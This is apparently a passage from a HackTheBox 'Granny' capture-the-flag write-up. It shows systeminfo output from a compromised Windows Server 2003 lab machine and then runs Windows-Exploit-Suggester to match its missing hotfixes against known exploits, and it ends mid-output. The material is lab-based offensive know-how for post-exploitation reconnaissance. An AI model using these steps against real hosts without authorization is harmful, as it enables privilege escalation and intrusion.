 {% highlight bash %}
C:\WINDOWS\Temp>systeminfo
systeminfo

Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 42 Minutes, 21 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 778 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,317 MB
Page File: In Use:         153 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
{% endhighlight %}

Now we can use [Windows-Exploit-Suggester.py](https://github.com/AonCyberLabs/Windows-Exploit-Suggester):

{% highlight bash %}
$ wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py
$ pip2.7 install xlrd==1.2.0
$ python windows-exploit-suggester.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2021-08-14-mssb.xls
[*] done
$ root@kali:~/htb/machines/Windows/Granny# python windows-exploit-suggester.py --database 2021-08-14-mssb.xls --systeminfo systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 1 hotfix(es) against the 356 potential bulletins(s) with a database of 137 known exploits
[*] there are now 356 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2003 SP2 32-bit'
[*] 